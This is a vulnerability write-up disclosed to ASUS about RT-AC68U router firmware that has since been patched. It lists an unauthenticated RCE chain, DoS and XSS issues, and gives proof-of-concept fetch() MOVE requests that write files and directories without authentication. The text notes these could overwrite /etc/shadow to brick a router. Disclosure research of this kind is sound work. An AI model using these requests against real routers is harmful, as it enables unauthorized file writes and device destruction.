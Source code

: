 *This is an adapted version of the writeup that was sent to the ASUS security team.*

This document summarizes the results of my pentesting against ASUS RT-AC68U on the latest firmware version `3.0.0.4.385_20632`. These vulnerabilities range from simple denial of service, to a no-interaction unauthenticated remote code execution chain. Many of these likely apply to other similar router versions as well. I also discuss several solutions for remediation.

These were patched in version `3.0.0.4.386.41634`.

Overall, I present the following vulnerabilities:

1. No-interaction pre-authentication RCE chain- No-interaction pre-authentication persistent DOS chain- 3 XSS vectors, two of which could chain to RCE- 2 temporary denial of service exploits

## [#](#vulnerabilities) Vulnerabilities

Note that you will need to enable the lighttpd server by going to <http://router.asus.com/cloud_main.asp> and enabling Cloud Disk.

Additionally, some of the exploits require the mounting of an external device.
### [##](#move%2Fcopy-priming) MOVE/COPY Priming

No authentication file-write to `/mnt/*`. An attacker chain this with `MOVE/COPY Off By Slash` to remotely brick a router, for example, by overwriting `/etc/shadow` or other important configuration files.
#### [###](#poc) POC

There are two relevant primitives - file creation and directory creation.
```
fetch("/smb/js/jplayer", {
  "headers": {
    "destination": "https://domain.tld/RT-AC68U/customdir",
    "overwrite": "T",
  },
  "body": "",
  "method": "MOVE"
});

```

*directory creation*
```
fetch("/smb/control", {
  "headers": {
    "destination": "https://domain.tld/RT-AC68U/customdir/testfile",
    "overwrite": "T",
  },
  "body": "",
  "method": "MOVE"
});

```

*file creation*

